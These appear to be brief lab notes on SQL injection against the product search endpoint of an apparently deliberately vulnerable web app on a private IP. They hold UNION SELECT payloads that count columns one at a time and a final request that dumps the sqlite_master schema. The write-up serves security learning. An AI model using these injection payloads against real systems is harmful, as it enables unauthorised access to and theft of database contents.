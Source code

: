 ![](Screenshot%202025-09-18%20at%2017.07.47.png)


Now I need to iterate through the category list starting at the first position, 1. 
	')) UNION SELECT 1 FROM sqlite_schema
	')) UNION SELECT 1,2 FROM sqlite_schema
	')) UNION SELECT 1,2,3 FROM sqlite_schema

Until I get to:
![](Screenshot%202025-09-18%20at%2017.09.15.png)

Answer: 9 

Caido:

`/rest/products/search?q=a%27))UNION%20SELECT%20sql%20,2,3,4,5,6,7,8,9%20FROM%20sqlite_master;`

URL:

`192.168.10.132:3000/rest/products/search?q=a'))UNION SELECT sql ,2,3,4,5,6,7,8,9 FROM sqlite_master;`

